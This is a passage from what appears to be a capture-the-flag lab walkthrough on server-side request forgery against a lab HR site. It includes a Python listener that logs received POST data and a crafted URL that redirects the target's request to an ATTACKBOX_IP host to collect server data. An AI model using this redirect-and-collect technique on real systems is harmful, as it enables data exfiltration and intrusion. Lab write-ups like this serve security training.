 * Source code analysis of the page shows that it is reading `url` parameters, and without performing any validation, it sends the information to the server mentioned in the `url` parameter.&#x20;
* Here, an attacker can redirect the request to their server, thus getting additional information for exploitation or data pilferage.&#x20;
* On your AttackBox, create a new file called `server.py` and add the following code to it:

server.py

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

* The above code will receive all the content and save it to a file data.html on the server. To obtain the data, we first need to start a lightweight server. We can do this in `AttackBox` by using the following commands:

```shell-session
thm@machine$ sudo chmod +x server.py && sudo python3 server.py
```

* Now open the browser and open `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080`, which will log the data in the `data.html`. Open the `data.html` file, which contains all the essential information related to the server that can be used to launch further attacks.
